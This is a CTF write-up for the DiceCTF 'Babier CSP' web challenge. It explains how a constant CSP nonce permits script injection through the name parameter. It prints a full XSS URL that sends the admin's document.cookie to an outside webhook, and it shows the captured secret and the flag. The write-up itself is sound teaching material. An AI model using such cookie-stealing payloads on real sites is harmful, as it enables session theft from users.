

# Babier CSP
### Made by: notdeghost

Challenge text:
```
Baby CSP (link to JustCTF's Baby CSP challenge) was too hard for us, try Babier CSP.

babier-csp.dicec.tf

Admin Bot (link to admin bot)

The admin will set a cookie secret equal to config.secret in index.js.
```
We were also given the file [index.js](index.js)

The website was extremely simple, with an href that said `View Fruit`. In the site's source there's a JavaScript event that that sets the href's link location to the current website + `?name=` and a random fruit. If we change the name query ourselves, we see that the website displays it.



If we try to change the name to a simple `<scrip>alert(1);</script>` it won't work due to the website's strict content security policy. As we see in the server's source, it only allows scripts with a nonce by setting the CSP header. By looking at the source you may however notice a slight misconfiguration, the nonce is a constant, which means we can simply add the nonce to our payload. The JavaScript on the website has the constant nonce `LRGWAXOY98Es0zz0QOVmag==`, so by adding `nonce="LRGWAXOY98Es0zz0QOVmag=="` to our script tag we can execute JavaScript. Now we just need to send a URL with an XSS to the admin bot, and we will get the admin's cookies.

Here's the final URL: `https://babier-csp.dicec.tf/?name=%3Cscript%20nonce=%22LRGWAXOY98Es0zz0QOVmag==%22%3Ewindow.location=%27https://webhook.site/c0b95a39-1d3f-4636-bcdb-6816c1908c05?c=%27%2Bdocument.cookie;%3C/script%3E`, it sets window.location to our webhook with the GET parameter c as the document.cookie. On [webhook.site](https://webhook.site/) we see the cookie `secret=4b36b1b8e47f761263796b1defd80745`.

If we go to `https://babier-csp.dicec.tf/4b36b1b8e47f761263796b1defd80745/` we get the flag `dice{web_1s_a_stat3_0f_grac3_857720}`. 